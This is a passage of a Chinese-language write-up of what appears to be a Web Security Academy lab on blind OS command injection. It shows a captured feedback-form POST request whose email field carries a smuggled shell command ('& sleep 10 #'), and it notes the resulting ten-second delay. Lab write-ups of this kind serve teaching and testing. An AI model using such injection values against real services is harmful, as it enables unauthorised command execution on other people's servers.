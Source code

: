 [![](assets/1708998334-c7195e69cdcdf0dcebe7f08e56e0c386.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142055-ddcb98be-d2dc-1.png)

随后我们使用 sleep 进行延迟操作，可以看到很明显的多了 10s

```plain
POST /feedback/submit HTTP/1.1
Host: 0a0c007603be1a0b853d5ec5009800c1.web-security-academy.net
Connection: close
Content-Length: 114
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a0c007603be1a0b853d5ec5009800c1.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0c007603be1a0b853d5ec5009800c1.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=T0sMRd22WQKwiSVx8915GP14pDDvjRuc

csrf=3pIgdreliOv1rBi2nHTKJmEsuwUhKgR0&name=QWQQ&email=longfei%40163.com+%26+sleep+10+%23&subject=test&message=1111
```

[![](assets/1708998334-7022f563433328439ab82c0f50b5e3d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142122-ee46c3ee-d2dc-1.png)
